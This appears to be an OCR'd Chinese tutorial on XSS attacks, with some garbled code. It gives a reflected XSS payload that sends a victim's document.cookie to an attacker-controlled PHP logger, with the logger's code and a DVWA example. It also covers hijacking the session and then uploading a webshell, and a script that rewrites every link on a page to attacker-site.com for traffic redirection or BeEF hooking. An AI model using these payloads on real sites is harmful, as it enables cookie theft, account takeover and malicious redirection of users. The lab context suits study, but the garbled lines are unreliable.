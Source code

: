 **一、xss盗取cookie**

**1.****反射****XSS****盗取****cookie**

url?uname:<script>document. location=http://ip/cookie .php cookie="+document.cookie:/script>

连接发送到用户，用户点击即触发XSS漏洞。同时可以使用URL编码迷惑用户。

cookie.php代码:

<?php

$cookie=$_GET['cookie'];

file_put_contents('cookie.txt' ,$cookie);

?>

http://127.0.0.1/dvwa/vulnerabilities/xss_ r/?name=<script>document.location='http://127.0.0.1/cookie.php?cookie='+document.cookie</script>#

 

**3.****利用cookie会话劫持**

访问目标站点，修改Cookie为Cookie.txt文件中的内容。

**4.****劫持会话后的操作**

\> 进入后台寻找上传点等进一步利用漏洞给上传一句话Webshell

\> 修改配置

**二、xss篡改连接**

**1. JS****代码讲解**

window.onload当窗口加载时，执行匿名函数。

使用for循环遍历所有获得的链接a标签。

<script>

window.onload = function() {

var link=document.getElementsByTagName("a");

for(j=0;j < link.length; j++){

link[j].href="[http://attacker-site.com/";](http://attacker-site.com/)}

}

</script>

**2.** **篡改链接指向流量****URL**

刷流量，某些站点的重定向。

[https://weibo.com/2081681517/GEZpU841G?ref=feedsdk&type=comment#](https://weibo.com/2081681517/GEZpU841G?ref=feedsdk&type=comment) rnd1540197060886

**3.** **篡改链接指向恶意URL**

Beef进行恶意链接生成，以及利用hook.js执行其他命令。
